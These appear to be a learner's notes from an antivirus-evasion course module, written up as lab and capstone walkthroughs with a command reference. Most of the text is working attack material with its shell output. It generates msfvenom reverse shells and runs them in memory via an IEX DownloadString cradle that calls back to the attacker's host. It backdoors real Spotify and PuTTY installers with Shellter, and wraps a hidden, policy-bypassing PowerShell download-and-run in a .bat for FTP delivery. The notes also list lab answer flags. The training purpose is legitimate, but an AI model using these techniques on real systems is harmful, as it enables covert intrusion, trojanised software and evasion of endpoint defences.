| -------------------------------------------------------------------------- | ------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------ |
| Which API have we used in our script to allocate memory for the shellcode? | **`VirtualAlloc`** — allocates a region of memory in the current process's address space. The P/Invoke declaration in the script: `[DllImport("kernel32.dll")] public static extern IntPtr VirtualAlloc(...)`. Distinct from `VirtualAllocEx` which allocates in a *remote* process. |

**PowerShell Thread Injection — ✅ Solved** (VM #1, 192.168.158.62, `offsec`/`lab`, tun0 192.168.45.219)

**Step 1: Generate payload on Kali**
```bash
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.45.219 LPORT=443 -f psh-reflection -o /tmp/bypass.ps1
```
```
Payload size: 324 bytes
Final size of psh-reflection file: 2939 bytes
Saved as: /tmp/bypass.ps1
```

**Step 2: Serve the file**
```bash
cd /tmp && python3 -m http.server 8080
```

**Step 3: Start the listener**
```bash
nc -lvnp 443
```

**Step 4: RDP in**
```bash
xfreerdp /u:offsec /p:lab /v:192.168.158.62 /dynamic-resolution +clipboard
```

**Step 5: Open Windows PowerShell (x86) — must be the x86 version, not 64-bit**

Start → search "powershell" → select **Windows PowerShell (x86)**

> 🔧 **Critical:** the msfvenom payload is 32-bit (`windows/shell_reverse_tcp`, x86). Running it in 64-bit PowerShell causes a silent failure. Always match the PowerShell architecture to the payload architecture.

**Step 6: Set execution policy**
```powershell
Set-ExecutionPolicy -ExecutionPolicy Unrestricted -Scope CurrentUser
```
Confirm with `Y`.

**Step 7: First attempt — Invoke-WebRequest to Desktop, Avira caught it**
```powershell
Invoke-WebRequest -Uri http://192.168.45.219:8080/bypass.ps1 -OutFile C:\Users\offsec\Desktop\bypass.ps1
```
HTTP server confirmed `200` response, but `dir C:\Users\offsec\Desktop\` came back empty. Avira's file engine quarantined the `.ps1` the moment it was written to disk.

> 📸 Screenshot: Avira quarantine notification, demonstrates exactly why in-memory execution exists: the file engine has nothing to scan if the payload never touches disk

> 🔍 **Worth remembering generally:** writing a payload to disk, even a well-obfuscated one, gives the file engine a chance to scan it. The psh-reflection format evades static signature detection well, but Avira still caught it here. The real evasion is never writing to disk at all.

**Step 8: Fix — run directly in memory with IEX**
```powershell
IEX(New-Object Net.WebClient).DownloadString('http://192.168.45.219:8080/bypass.ps1')
```
`DownloadString` pulls the script as a string, never writes a file. `IEX` (`Invoke-Expression`) executes it directly in the current process's memory. The file engine has nothing to scan.

**Step 9: Shell caught on Kali**
```
nc -lvnp 443
Listening on 0.0.0.0 443
Connection received on 192.168.158.62 51217
Microsoft Windows [Version 10.0.22000.675]
(c) Microsoft Corporation. All rights reserved.

C:\Users\offsec>whoami
client01\offsec
```

> 📸 Screenshot: the nc listener showing the connection received and `whoami` returning `client01\offsec`

**Lab answer:** `client01\offsec`, shell via in-memory PowerShell thread injection bypassing Avira Free Security.

#### Tags: #PowerShell #ThreadInjection #pshReflection #VirtualAlloc #CreateThread #Msfvenom #InMemoryEvasion #Lab #Quiz #Module15

---

### 15.3.3. Automating AV Evasion with Shellter

Manual payload crafting is slow and expertise-intensive. Shellter automates PE injection. It takes a legitimate Windows executable (a Spotify installer, a PuTTY binary) and injects shellcode into it without triggering the signature patterns that manually-modified PEs would.

**Why Shellter is harder to detect than naive PE modification:**
- Doesn't create new PE sections or change existing section permissions (creating a new executable section is a well-known AV red flag)
- Uses the PE's existing Import Address Table (IAT) entries to locate memory allocation, data transfer, and execution functions, keeping code flow looking legitimate
- Obfuscates both the injected payload and the decoder stub before writing
- Stealth Mode (optional) restores the original PE's execution flow after the payload runs, so the legitimate application still launches normally

#### Installation

```bash
sudo apt install shellter
sudo apt install wine
sudo dpkg --add-architecture i386 && sudo apt-get update && sudo apt-get install wine32:i386
# On ARM only: sudo apt install -y qemu-user-static binfmt-support (before wine32)
```

#### Workflow

```bash
shellter    # launches a wine-based console
```

1. Select **A** for Auto mode
2. Provide the path to a **32-bit** carrier PE (Shellter free version only handles 32-bit)
3. Enable **Stealth Mode** (Y) when prompted
4. Choose a payload from the built-in list, or enter custom shellcode
5. Configure LHOST / LPORT
6. Shellter tests the injection in-memory, then writes the modified PE to disk
7. Transfer the modified PE to the target and execute it



> 📸 Screenshot: Shellter's banner on launch (the ASCII art logo + "Wine Mode" text), useful reference for confirming Wine is running Shellter correctly
> 📸 Screenshot: Shellter's console output during the "Tracing..." / injection phase, confirms the PE structure was analysed and shellcode injected successfully
> 📸 Screenshot: the "Injection: Verified!" confirmation at the end of the Shellter run, the key success indicator before transferring the modified PE

**Setting up a Meterpreter listener** (if using staged `windows/meterpreter/reverse_tcp`):
```bash
msfconsole -x "use exploit/multi/handler; set payload windows/meterpreter/reverse_tcp; set LHOST <kali-ip>; set LPORT 443; run;"
```

**Expected session:**
```
[*] Sending stage (175174 bytes) to 192.168.50.62
[*] Meterpreter session 1 opened
meterpreter > shell
C:\Users\offsec\Desktop> whoami
client01\offsec
```

> 🔍 **Worth remembering generally:** the Shellter scan result (clean on Avira's quick scan) reflects the IAT-reuse technique working against *static* file scanning. A behaviour-based or ML scan after actual execution may tell a different story. That's exactly why the labs test against a live running AV on a real VM rather than just checking a static file scan result.

> 🔗 **Shellter official site** (free vs Pro comparison, download): [shellterproject.com](https://www.shellterproject.com/)
> 🔗 **PayloadsAllTheThings** AV bypass, covers Shellter and alternative PE carriers: [github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Antivirus%20Bypass](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Antivirus%20Bypass)
> 🔗 **Video. Shellter PE injection walkthrough:** search `"shellter"` on [ippsec.rocks](https://ippsec.rocks) for HTB boxes where Shellter appeared. Also check the Shellter project's own demo video linked from [shellterproject.com](https://www.shellterproject.com/), it shows the full interactive workflow including the IAT selection stage.

**Lab status: ✅ Completed** (Q1 pure-recall):

| Question | Answer |
|---|---|
| Which Shellter option restores the execution flow of the backdoored binary to avoid suspicion? | **Stealth Mode** — after the payload executes, Stealth Mode restores the original PE's execution flow so the carrier application (e.g. Spotify installer) appears to run normally, avoiding the immediate suspicion a process that silently exits would trigger. |

**Shellter + Spotify hands-on — ✅ Solved** (VM #1, 192.168.158.62, `offsec`/`lab`, tun0 192.168.45.219)

**Pre-requisite: wine32 was missing on Kali — install it first**

```bash
sudo dpkg --add-architecture i386 && sudo apt update && sudo apt -y install wine32:i386
```

The i386 architecture flag tells apt to support 32-bit packages. The install pulls wine32 and its dependency tree (~267 MB). Without it, Shellter exits immediately with `wine: could not load kernel32.dll`.

**Pre-requisite: reset the Wine prefix as 32-bit**

If Shellter was run before wine32 was installed, Wine will have created a broken 64-bit prefix at `~/.wine`. Delete it and re-initialise as 32-bit:

```bash
rm -rf ~/.wine && WINEARCH=win32 wineboot
```

`WINEARCH=win32` tells Wine to create a fresh 32-bit Windows environment. `wineboot` performs the initialisation (registry, fake Windows folder structure). Harmless-looking OLE errors in the output are normal noise. Full flag-by-flag explanation of what each step does and why: [[Antivirus Evasion (Breakdowns)#Why Shellter needs wine32|Command Breakdowns]].

**Step 1: Confirm the Spotify installer is 32-bit**

```bash
file /home/kali/Downloads/b5954f199aed77c672af0b498b208ed5-spotifyfullwin10-32bit.exe
```
```
PE32 executable (GUI) Intel i386, 5 sections
```

Must say `PE32`, not `PE32+`. Shellter's free version only handles 32-bit PEs.

**Step 2: Copy to /tmp so Shellter works on a throwaway copy**

```bash
cp /home/kali/Downloads/b5954f199aed77c672af0b498b208ed5-spotifyfullwin10-32bit.exe /tmp/spotify-backdoor.exe
```

**Step 3: Run Shellter**

```bash
shellter
```

Interactive session, answer the prompts:

| Prompt | Answer | Why |
|---|---|---|
| `Choose Operation Mode - Auto/Manual (A/M/H)?` | `A` | Auto mode: Shellter traces execution paths and finds injection points automatically |
| `PE Target:` | `/tmp/spotify-backdoor.exe` | Path to the carrier PE |
| `Enable Stealth Mode? (Y/N/H):` | `Y` | Preserves original execution flow so Spotify installer still launches normally after the payload fires |
| `Use a listed payload or custom? (L/C/H):` | `L` | Use a built-in payload |
| `Select payload by index:` | `5` | `Shell_Reverse_TCP [stager]` — plain Windows cmd shell via staged delivery |
| `SET LHOST:` | `192.168.45.219` | Kali tun0 IP |
| `SET LPORT:` | `443` | Port 443 blends in as HTTPS traffic |

Shellter's output during injection:
- Traced 4422 instructions through the PE (~1 min in Wine mode)
- Selected IAT method 7: `CreateFileMapping/MapViewOfFile`, the only memory allocation pair available in this PE's import table that Stealth Mode allows
- Generated ~305 bytes of polymorphic junk code as obfuscation (meaningless filler instructions inserted between the real payload bytes; "polymorphic" means the filler changes its byte pattern on every injection run, so AV can't fingerprint a fixed sequence)
- Injected at virtual address `0x40e733` (file offset `0xdb33`) inside `.text`
- Verified the injected code is reachable: `Injection: Verified!`

> 📸 Screenshot: Shellter's console showing "Injection: Verified!" and the IAT method selected (method 7)

**Step 4: Start the msfconsole handler**

> 🔧 **Critical:** Shellter's `Shell_Reverse_TCP` is a **stager** (note the `[stager]` label in the payload menu). A stager connects back, then expects the handler to send the actual shell code as a second stage. A plain `nc` listener gets the connection and immediately drops it (nc can't serve the stage). You need `multi/handler` with the **staged** payload (`windows/shell/reverse_tcp` with the slash). Full mechanics of why nc drops it: [[Antivirus Evasion (Breakdowns)#Staged vs stageless payloads|Command Breakdowns]]. Quick symptom lookup: [[Shells & Payloads (Decision Tree)#Shellter payload menu shows stager|Decision Tree]].

```bash
sudo msfconsole -q -x "use multi/handler; set payload windows/shell/reverse_tcp; set LHOST 192.168.45.219; set LPORT 443; run"
```

Note the payload name: `windows/shell/reverse_tcp` (slash between `shell` and `reverse`) is the staged variant. `windows/shell_reverse_tcp` (underscore, no slash) is stageless and will cause the session to open and immediately close.

```
[*] Started reverse TCP handler on 192.168.45.219:443
```

**Step 5: Set up the RDP share and transfer the backdoored exe**

```bash
mkdir -p /tmp/rdp-share
cp /tmp/spotify-backdoor.exe /tmp/rdp-share/
xfreerdp /u:offsec /p:lab /v:192.168.158.62 /drive:kali,/tmp/rdp-share /dynamic-resolution +clipboard
```

Inside the RDP session (cmd.exe):
```cmd
copy \\tsclient\kali\spotify-backdoor.exe C:\Users\offsec\Desktop\spotify-backdoor.exe
```
```
1 file(s) copied.
```

**Step 6: Run the backdoored exe on the Windows VM**

```cmd
C:\Users\offsec\Desktop\spotify-backdoor.exe
```

Avira did not catch it. The Spotify installer launched (Stealth Mode working as intended).

**Step 7: Shell lands on Kali**

```
[*] Sending stage (240 bytes) to 192.168.158.62
[*] Command shell session 1 opened (192.168.45.219:443 -> 192.168.158.62:51076) at 2026-08-09 23:11:28 +0100

Shell Banner:
Microsoft Windows [Version 10.0.22000.675]

C:\Users\offsec>whoami
client01\offsec
```

> 📸 Screenshot: msfconsole showing `[*] Sending stage` and `Command shell session 1 opened`, then the `whoami` output confirming `client01\offsec`

**Lab answer:** shell obtained as `client01\offsec`. No OS{} flag file for this exercise. Q2 answer is **Stealth Mode** (the Shellter option that restores original PE execution flow).

> 🔍 **Worth remembering generally:** staged vs stageless payloads require matching listeners. Stageless (`windows/shell_reverse_tcp`, underscore): plain nc catches it. Staged (`windows/shell/reverse_tcp`, slash): requires `multi/handler` to serve the second stage. Mixing them causes the connection to open and immediately close with no useful error. The `[stager]` label in Shellter's payload menu is the giveaway.

> 🔁 **Similar to:** the stageless vs staged distinction from [[14. Fixing Exploits#14.1.4. Fixing the Exploit|14.1.4]] where matching payload format to the listener type was equally critical. Same failure mode: wrong listener type causes a silent connection drop.

#### Tags: #Shellter #PEInjection #IAT #StealthMode #Meterpreter #Wine #StagedVsStageless #Lab #Quiz #Module15

---

## 🏆 Capstone Labs

> 🚩 **Hands-on, VM spin-up required.** Two Module Exercise VMs, separate from the learning-unit VM (#1 / Windows 11 / Avira) used in the 15.3 walkthroughs above. Both targets run **COMODO** antivirus, a harder target than Avira. Both use an FTP server that auto-executes uploaded `.exe`/`.bat` files from its root directory every few seconds, you don't need a user to manually click anything, just get the file there.



---

### Capstone Lab 1: Shellter + PuTTY on Module Exercise VM #1 (COMODO AV)

> 🔧 Technique: Shellter + a 32-bit PuTTY executable as the carrier, Meterpreter reverse shell, delivered via FTP in active mode with binary encoding.

**Target:** Module Exercise VM #1 (COMODO AV), no credentials needed for FTP.

**Step 1: Download 32-bit PuTTY**
```bash
wget https://the.earth.li/~sgtatham/putty/latest/w32/putty.exe -O ~/putty32.exe
file ~/putty32.exe    # confirm: PE32 executable (not PE32+/64-bit)
```

**Step 2: Shellter injection**
```bash
shellter
# A (Auto mode)
# PE path: /home/kali/putty32.exe
# Stealth Mode: Y
# Payload: windows/meterpreter/reverse_tcp (or whichever listed option)
# LHOST: <kali-tun0-ip>
# LPORT: 443
```

> 📸 Screenshot: Shellter's "PE Analysis" phase and successful injection confirmation

**Step 3: Set up the Meterpreter listener**
```bash
msfconsole -x "use exploit/multi/handler; set payload windows/meterpreter/reverse_tcp; set LHOST <kali-ip>; set LPORT 443; run;"
```

**Step 4: Transfer via FTP (active mode, binary encoding)**
```bash
ftp <target-ip>
# at the ftp> prompt:
passive        # toggles to active mode if currently passive (ftp client will confirm)
binary         # required for .exe transfer — text mode corrupts binary files
put putty32.exe
quit
```

> 🔧 **FTP active mode note:** "active mode" means the server initiates the data connection back to the client. If `passive` reports "Passive mode off", you're in active mode. The exercise specifically requires this. Passive mode may not work with the lab's FTP server configuration.

> 📸 Screenshot: the FTP session confirming the binary upload completed, then the Meterpreter session opening on Kali

**Step 5: Catch the session and read the flag**
```
getuid
sysinfo
# navigate to flag location per the exercise's own instructions
# read the flag file — paste actual output here
```

> 📸 Screenshot: `getuid` and flag read output in the Meterpreter session

**Capstone 1 — ✅ Solved** (VM #1, 192.168.158.53, anonymous FTP, tun0 192.168.45.219)

**Step 1: Download 32-bit PuTTY and verify**
```bash
wget https://the.earth.li/~sgtatham/putty/latest/w32/putty.exe -O /tmp/putty32.exe
file /tmp/putty32.exe
```
```
PE32 executable (GUI) Intel 80386, for MS Windows
```

**Step 2: Copy for Shellter to work on, reset Wine prefix, run Shellter**
```bash
cp /tmp/putty32.exe /tmp/putty-backdoor.exe
rm -rf ~/.wine && WINEARCH=win32 wineboot
shellter
```

Shellter interactive answers:

| Prompt | Answer |
|---|---|
| Mode | `A` (Auto) |
| PE Target | `/tmp/putty-backdoor.exe` |
| Stealth Mode | `Y` |
| Listed or Custom | `L` |
| Payload index | `1` (Meterpreter_Reverse_TCP) |
| LHOST | `192.168.45.219` |
| LPORT | `443` |

Shellter selected IAT method 5 (`LoadLibrary/GetProcAddress`), injected at `0x4bb662` in `.text`, generated 365 bytes of polymorphic junk code (same idea as above, filler bytes that change on every run so the overall byte pattern never looks the same twice). `Injection: Verified!`

> 📸 Screenshot: Shellter's injection confirmed output and IAT method selected

**Step 3: Start the Meterpreter handler**
```bash
sudo msfconsole -q -x "use multi/handler; set payload windows/meterpreter/reverse_tcp; set LHOST 192.168.45.219; set LPORT 443; run"
```
```
[*] Started reverse TCP handler on 192.168.45.219:443
```

> 🔧 **Payload must match:** Shellter's `Meterpreter_Reverse_TCP [stager]` requires `windows/meterpreter/reverse_tcp` in the handler (not the shell variant). Using the wrong payload causes the session to open and immediately close.

**Step 4: Upload via FTP (active mode, binary encoding)**
```bash
ftp -A 192.168.158.53
```
At the prompts: username `anonymous`, password blank (just Enter).
```
ftp> binary
ftp> put /tmp/putty-backdoor.exe putty-backdoor.exe
ftp> quit
```
```
226 Transfer complete.
1495552 bytes sent in 00:00 (6.87 MiB/s)
```

> 🔧 **Two FTP gotchas from this lab:**
> 1. `-A` flag (active mode) must be on the initial `ftp` command, not toggled inside. The Windows FTP server requires it.
> 2. `put /tmp/putty-backdoor.exe putty-backdoor.exe` -- the second argument (remote filename) is required. Without it, FTP sends the full local path including `/tmp/` as the remote path, which Windows can't resolve: `550 The system cannot find the path specified`.

**Step 5: Session lands automatically (victim auto-executes every few seconds)**
```
[*] Sending stage (203453 bytes) to 192.168.158.53
[*] Meterpreter session 1 opened (192.168.45.219:443 -> 192.168.158.53:50503)

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
```

COMODO did not catch the backdoored PuTTY binary.

**Step 6: Drop to shell and read the flag**
```
meterpreter > shell

C:\WINDOWS\system32> whoami & type C:\Users\Administrator\Desktop\flag.txt
nt authority\system
OS{897020a6b5826057c340bd25e616f091}
```

> 📸 Screenshot: Meterpreter session opened with `getuid` showing `NT AUTHORITY\SYSTEM`, then the flag read

**Lab answer:** `OS{897020a6b5826057c340bd25e616f091}` as `nt authority\system`

> 🔍 **Worth remembering generally:** landing as SYSTEM via a user auto-executing a file confirms the auto-execution context was already elevated (or ran as SYSTEM directly). In real engagements this is unusual -- most auto-execution mechanisms run as the logged-in user. The lab abstracts away the privilege escalation, but worth noting the realistic scenario would typically land as the user first.

#### Tags: #ShellterCapstone #PuTTY #COMODO #Meterpreter #FTP #ActiveMode #BinaryEncoding #Lab #Module15 #Capstone

---

### Capstone Lab 2: Veil + Weaponised PowerShell on Module Exercise VM #2 (COMODO v12.2.2.8012)

> 🔧 Technique: generate a PowerShell AV bypass (msfvenom `psh-reflection`), use Veil to wrap it as a `.bat` file that can be auto-executed by the FTP server, deliver via FTP, catch the shell.

The problem this solves: a raw `.ps1` file can't be auto-executed by the FTP server (which looks for `.exe` or `.bat`), and can't be double-clicked by a user without opening in Notepad. Veil converts the PowerShell script into a `.bat` wrapper that runs the PowerShell payload when executed. COMODO scans `.bat` files differently from raw PowerShell, which is what makes this combination worth testing.

**Step 1: Install Veil**

> 🔍 **Worth doing first:** Veil installs a significant number of dependencies and can take several minutes. Run this before anything else in the session.

```bash
sudo apt install veil
# OR from source for the latest version:
git clone https://github.com/Veil-Framework/Veil.git ~/Veil
cd ~/Veil && sudo ./config/setup.sh --force --silent
```

> 📸 Screenshot: Veil's main menu interface on first launch, confirms installation succeeded

> 🔗 **Veil Framework GitHub** (official source, install instructions, payload list): [github.com/Veil-Framework/Veil](https://github.com/Veil-Framework/Veil)
> 🔗 **Video. Veil framework walkthrough:** search `"veil framework"` on [ippsec.rocks](https://ippsec.rocks) for boxes where Veil appeared. TCM Security's "Practical Ethical Hacking" course also covers Veil in detail if you want a standalone tutorial rather than a box context.

**Step 2: Generate the PowerShell payload**
```bash
msfvenom -p windows/shell_reverse_tcp LHOST=<kali-ip> LPORT=443 -f psh-reflection -o ~/bypass.ps1
```

**Step 3: Use Veil to wrap as a .bat**
```bash
veil
# Use Veil's Evasion module to select a PowerShell-to-batch wrapper
# Provide the path to bypass.ps1 when prompted
# Note the output .bat file path
```

> 📸 Screenshot: Veil's output confirming the `.bat` file was generated, with the output file path visible

**Step 4: Set up listener**
```bash
nc -lvnp 443
```

**Step 5: Transfer via FTP**
```bash
ftp <target-ip>
passive     # toggle to active mode
binary      # binary encoding
put payload.bat
quit
```

> 📸 Screenshot: FTP upload confirming transfer, then the shell arriving on the nc listener

**Step 6: Confirm shell and read flag**
```
whoami
# navigate to flag location
# read flag — paste actual output here
```

> 📸 Screenshot: `whoami` and flag output in the shell

**Capstone 2 — ✅ Solved** (VM #2, 192.168.158.53, anonymous FTP, tun0 192.168.45.219)

> 🔧 **Veil wouldn't launch:** Veil's Ruby and AutoIT components failed to install via Wine in a headless terminal environment (XDG_RUNTIME_DIR / no display server). The PowerShell payloads are pure Python and don't need those components, but the broken Wine profile blocks launch entirely. Rather than spending time on a reinstall that may fail the same way, the `.bat` wrapper was built manually -- which is exactly what Veil automates anyway. Understanding the manual approach is more useful than the tool abstraction.

**Step 1: Generate the PowerShell payload**
```bash
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.45.219 LPORT=443 -f psh-reflection -o /tmp/bypass.ps1
```
```
Payload size: 324 bytes
Final size of psh-reflection file: 2965 bytes
Saved as: /tmp/bypass.ps1
```

**Step 2: Create the .bat wrapper manually**
```bash
cat > /tmp/payload.bat << 'EOF'
@echo off
powershell -NoP -NonI -W Hidden -Exec Bypass -Command "IEX(New-Object Net.WebClient).DownloadString('http://192.168.45.219:8080/bypass.ps1')"
EOF
```

**What the .bat does:** when double-clicked, it launches PowerShell with no profile (`-NoP`), non-interactive (`-NonI`), hidden window (`-W Hidden`), execution policy bypassed (`-Exec Bypass`), then runs `IEX(DownloadString(...))` to pull `bypass.ps1` from Kali and execute it directly in memory. The `.ps1` never touches disk on the target -- only the `.bat` does, and a `.bat` wrapping PowerShell is far less suspicious to COMODO's static scanner than a raw PowerShell payload. Flag-by-flag teardown of what each switch removes and why it helps: [[Antivirus Evasion (Breakdowns)#The PowerShell AV-bypass flags|Command Breakdowns]].

> 📸 Screenshot: `cat /tmp/payload.bat` output on Kali confirming the PowerShell one-liner is correctly written into the file before uploading

**Step 3: Serve the .ps1 and start the listener**
```bash
cd /tmp && python3 -m http.server 8080
```
```bash
sudo nc -nlvp 443
```

**Step 4: Upload the .bat via FTP**
```bash
ftp -A 192.168.158.53
```
Username `anonymous`, password blank.
```
ftp> binary
ftp> put /tmp/payload.bat payload.bat
ftp> quit
```
```
226 Transfer complete.
```

**Step 5: Shell lands automatically**
```
Connection received on 192.168.158.53 50366
Microsoft Windows [Version 10.0.19044.1415]

C:\WINDOWS\system32> whoami & type C:\Users\Administrator\Desktop\flag.txt
nt authority\system
OS{44c3961aad7bb6f399a5e43cdc21cfb4}
```

> 📸 Screenshot: nc listener showing the connection received and `whoami` + flag read in a single block

**Lab answer:** `OS{44c3961aad7bb6f399a5e43cdc21cfb4}` as `nt authority\system`

> 🔍 **Worth remembering generally:** Veil automates the `.bat` wrapper creation but isn't magic -- it's generating the same `powershell -Exec Bypass "IEX(DownloadString(...))"` one-liner inside a `.bat` file. When the tool breaks, knowing the underlying technique means you can reproduce it in 30 seconds with `cat`. Tool knowledge without technique knowledge is fragile.

> 🔁 **Similar to:** the `.bat`-as-wrapper-for-PowerShell technique mirrors the delivery problem in [[12. Client-Side Attacks|Client-Side Attacks]] where direct script execution often requires user interaction or an execution policy bypass. Veil solves "how do I make a PowerShell script auto-run without the user knowing it's PowerShell" the same way a macro-enabled Office doc solves the equivalent phishing delivery problem.

#### Tags: #Veil #VeilFramework #BatchScript #PowerShell #COMODO #FTP #ActiveMode #Lab #Module15 #Capstone

---

## 15.4. Wrapping Up

This module covered the full stack:

- **How AV products work:** seven concurrent engines, four detection methods, and how defenders layer them to catch what individual methods miss.
- **On-disk evasion:** packers change the structure and hash (weak); obfuscators break static patterns (moderate); crypters encrypt the payload so only a decryption stub sits on disk (strongest).
- **In-memory evasion:** four techniques (remote process injection, reflective DLL injection, process hollowing, inline hooking), all designed to bypass the file engine by keeping malicious code in memory. EDRs specifically watch the API call patterns these rely on.
- **Testing discipline:** never submit to VirusTotal for real engagements (burns the bypass); use Kleenscan or a local test VM instead.
- **Practical bypasses:** PowerShell thread injection via `psh-reflection` (in-memory, random variable names), Shellter (automated PE injection, IAT reuse), Veil (converts PowerShell to a deliverable `.bat`).



**Further reading:**

> 🔗 **Microsoft Security Blog**. "FinFisher exposed: A researcher's tale of defeating traps, tricks, and complex virtual machines" (search the Microsoft Security Blog directly, deep-links to that blog have historically moved, the article title is stable)

> 🔗 **Emeric Nasi**, "Bypass Antivirus Dynamic Analysis", search on Google Scholar or ResearchGate for current hosting location; it's been hosted at various URLs over time

> 🔗 **PayloadsAllTheThings** AV bypass index (stable GitHub): [github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Antivirus%20Bypass](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Antivirus%20Bypass)

> 🔗 **HackTricks** AV bypass techniques (GitHub source, bypasses paywall, search within the repo for "av bypass" to find the current path): [github.com/HackTricks-wiki/hacktricks](https://github.com/HackTricks-wiki/hacktricks)

#### Tags: #Module15Summary #AVEvasionRecap #AntivirusEvasion

---

## 📋 Command Reference: Antivirus Evasion

Generalised, copy-pasteable commands for this whole topic area. Full mechanics and flag-by-flag breakdowns live in the hub docs linked below.

```bash
# --- PowerShell in-memory injection ---

# Generate psh-reflection payload (new random variable names each run)
msfvenom -p windows/shell_reverse_tcp LHOST=<ip> LPORT=<port> -f psh-reflection -o bypass.ps1

# Stageless listener (plain nc)
nc -lvnp <port>

# Staged Meterpreter listener
msfconsole -x "use exploit/multi/handler; set payload windows/meterpreter/reverse_tcp; set LHOST <ip>; set LPORT <port>; run;"

# On Windows target (PowerShell):
# Set-ExecutionPolicy -ExecutionPolicy Unrestricted -Scope CurrentUser
# .\bypass.ps1

# --- Shellter ---

# Install
sudo apt install shellter wine
sudo dpkg --add-architecture i386 && sudo apt update && sudo apt -y install wine32:i386

# If Shellter was run before wine32 was installed, Wine creates a broken 64-bit prefix.
# Reset it as a clean 32-bit prefix before running Shellter:
rm -rf ~/.wine && WINEARCH=win32 wineboot

# Run (interactive wine-based console)
shellter
# A → Auto → path to 32-bit PE → Stealth Mode: Y → payload → LHOST/LPORT

# Verify PE is 32-bit before feeding to Shellter
file target.exe   # must say "PE32" not "PE32+"

# Staged shell listener (required when Shellter uses a [stager] payload)
# Note: windows/shell/reverse_tcp (slash) = staged, needs multi/handler
# windows/shell_reverse_tcp (underscore) = stageless, plain nc works
sudo msfconsole -q -x "use multi/handler; set payload windows/shell/reverse_tcp; set LHOST <ip>; set LPORT <port>; run"

# --- Veil ---

# Install
sudo apt install veil
# OR from source:
git clone https://github.com/Veil-Framework/Veil.git ~/Veil
cd ~/Veil && sudo ./config/setup.sh --force --silent

# Run (interactive menu)
veil

# --- FTP file delivery (active mode + binary encoding) ---
ftp <target-ip>
# ftp> passive      (toggle to active if currently in passive)
# ftp> binary       (binary encoding — required for .exe/.bat)
# ftp> put <file>
# ftp> quit

# --- Test VM setup: disable automatic sample submission ---
# PowerShell (admin) on Windows test VM:
# Set-MpPreference -SubmitSamplesConsent 2
```

- **Command Appendix (AV Evasion sections):** [[Shells & Payloads#PowerShell In-Memory Injection (AV Bypass)|PowerShell In-Memory Injection]], [[Shells & Payloads#Shellter PE Injection|Shellter PE Injection]], [[Shells & Payloads#Staged Payload Handler (msfconsole multi/handler)|Staged Payload Handler]], [[Shells & Payloads#FTP Active-Mode Payload Delivery|FTP Active-Mode Delivery]]
- **Command Breakdowns:** [[Antivirus Evasion (Breakdowns)]]. PowerShell AV flag semantics, staged vs stageless payload mechanics, wine32/Wine prefix requirements for Shellter
- **Decision Tree:** [[Shells & Payloads (Decision Tree)]]. "AV blocking payload" node and "Shellter shows [stager]" node both added
- **Methodology Cheat Sheet:** [[Windows Methodology#Step 2b: AV Evasion (When AV Is Blocking Direct Payloads)|Windows Methodology. Step 2b: AV Evasion]]
- **Modern Tooling:** no addition for this module. Shellter and Veil are themselves the automation tools for this area, and no faster standalone equivalent to the manual techniques taught exists that isn't a full C2 framework (excluded by Modern Tooling scope). See [[MODERN TOOLING]].

#### Tags: #CommandReference #Module15

---

## 🎯 Related Boxes to Practice

A heads-up on why this section looks different from modules like Common Web Application Attacks: public HTB boxes almost always have AV disabled, because AV bypass complexity gets in the way of the intended exploitation challenge. So there's no "do this box for Shellter practice" equivalent. The genuine reps for this module's actual techniques come from the module's own VMs and the OffSec PG Practice labs.

That said, there are two distinct skills here worth separating: the **AV bypass technique** itself (Shellter, psh-reflection, Veil), and the **payload delivery workflow** (transfer a file, trigger execution, catch a shell). Most boxes test the latter, not the former. These are still worth doing because delivery mechanics need to feel automatic before you layer AV bypass on top under exam pressure.

---

**Payload delivery + Windows execution workflow:**

**[HTB Devel](https://app.hackthebox.com/machines/Devel)** (Windows, Easy). IIS file upload to remote code execution. Transfer an ASPX webshell, trigger it via the browser, upgrade to a shell. The exact same file-transfer-then-execute pattern as this module's capstone FTP delivery labs, just over HTTP instead of FTP. Do this before the capstones if the delivery mechanics feel uncertain.

**[HTB Granny](https://app.hackthebox.com/machines/Granny)** (Windows, Easy). WebDAV file upload with extension restrictions that need bypassing. Pairs with Devel. Same delivery workflow, adds the wrinkle of working around upload filters.

**[HTB Optimum](https://app.hackthebox.com/machines/Optimum)** (Windows, Easy). HFS (HTTP File Server) exploitation, PowerShell delivery of the shell. The PS payload generation + nc listener catch from this module appears here in a real box context. Good for making `msfvenom` + PowerShell delivery feel routine.

---

**Genuine AV evasion practice (OffSec labs only):**

**[PG Practice: Hutch](https://www.offensive-security.com/labs/)**. Windows AD box in the OSCP prep list. Involves delivering a payload past endpoint restrictions. Commonly flagged by the community as requiring AV bypass techniques (AppLocker restrictions, endpoint protection). Check recent OSCP community write-ups on whether COMODO or Defender is the target, this changes which bypass technique applies.

**[PG Practice: Nickel](https://www.offensive-security.com/labs/)**. Windows box on the OSCP prep list. Involves a non-standard service and payload delivery. Community flagged as requiring care around payload execution in a monitored environment. Worth attempting after completing this module's capstones.

> 🔧 **Verify before attempting:** PG Practice VMs update. Both Hutch and Nickel are correct as of the time this was written, but the specific AV configuration may have changed. Check a recent community walkthrough on the OSCP Discord or the OffSec forums before spinning them up.

---

**How to find more:**

> 🔗 **ippsec.rocks**, search `"antivirus"` or `"shellter"` or `"msfvenom evasion"` to pull up HTB walkthroughs where the technique surfaced: [ippsec.rocks](https://ippsec.rocks)

> 🔗 **OffSec PG Practice box list**, filter by OS: Windows, then sort by community difficulty. Any box tagged "AV" or "evasion" in the community notes is worth prioritising for this module: [portal.offsec.com](https://portal.offsec.com)

#### Tags: #RelatedBoxes #Module15 #HTBDevel #HTBGranny

---

## **Outstanding Sections**

- [x] **15.1.1 Known vs Unknown Threats:** done (theory, YARA context, EDR framing, diagram added)
- [x] **15.1.2 AV Engines and Components:** done (all 7 engines explained, diagram added)
- [x] **15.1.3 Detection Methods:** done (Q1, Q2 & Q3 answered, diagram added, Q3 VirusTotal hands-on complete, flag `OS{6c33bf77a2eb75db6ba9b35138a8b89f}`)
- [x] **15.2.1 On-disk Evasion:** done (Q1 answered, packer/obfuscator/crypter taxonomy with diagram)
